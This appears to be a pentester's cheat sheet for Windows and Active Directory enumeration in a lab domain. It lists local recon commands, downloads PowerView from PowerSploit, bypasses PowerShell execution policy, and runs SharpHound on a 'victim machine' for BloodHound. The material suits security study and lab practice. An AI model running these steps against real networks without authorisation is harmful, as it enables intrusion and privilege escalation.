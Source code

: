 **Initial enumeration**
SNMP community string
hostnames
domain name
System
network
passwords
AV

**AD Enumeration**
Users & Admins
SPN
GPO
AD ACLs
Domain Trust

![test](./screenshot.png)

<img src="screenshot.png" alt="IoT" />


**Basics**
systeminfo
hostname
whoami
echo %username%

**users / localgroups**
net users
net localgroups

**More info about a specific user. Check if user has privileges**
net user user1

**View Domain Groups**
net group /domain

**View Members of Domain Group**
net group /domain <Group Name>

**Firewall**
netsh firewall show state
netsh firewall show config

**Network**
ipconfig /all
route print
arp -A

**How well patched is the system**
wmic qfe get Caption,Description,HotFixID,InstalledOn
	
	
# PowerView

**download wget**
http://gnuwin32.sourceforge.net/packages/wget.htm

download powerview
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Open CMD bypassing execution policy
powershell -ep bypass

luanch PV
. .\powerview.ps1

Enumeration commands 
Get-NetDomain
Get-NetDomainController
Get-DomainPolicy
(Get-DomainPolicy)."system access"
Get-NetUser
Get-NetUser | select cn
Get-NetUser | select samaccountname
Get-NetUser | select description
Get-UserProperty
Get-UserProperty -Properties pwdlastset
Get-UserProperty -Properties logoncount
Get-UserProperty -Properties badpwdcount
Get-NetComputer -FullData
Get-NetComputer -FullData | select OperatingSystem
Get-NetGroup
Get-NetGroup -GroupName "Domain Admins"
Get-NetGroup -GroupName *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Invoke-ShareFinder
Get-NetGPO
Get-NetGPO | select displayname, whenchanged


# Bloodhound

**Attacker machine**
apt install bloodhound
neo4j console


**Victim machine**
powershell .ep bypass

. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip